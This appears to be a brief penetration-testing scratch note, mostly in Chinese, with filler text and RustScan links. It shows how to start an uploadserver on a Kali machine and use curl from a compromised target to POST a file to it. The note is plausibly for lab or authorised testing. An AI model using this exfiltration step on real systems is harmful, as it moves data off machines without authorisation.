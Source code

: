asdfasdfas
哈哈<BR>![图片alt](images/ttte.png)

利用 uploadserver 從目標上傳檔案到kali
```
# kali端:
pip install uploadserver
python3 -m uploadserver

# 目標端:
curl -X POST http://10.10.10.10:8000/upload -F "files=@myfile.zip"
```

[https://github.com/RustScan/RustScan/releases/](https://github.com/RustScan/RustScan/releases/)  
https://github.com/RustScan/RustScan/wiki/Installation-Guide

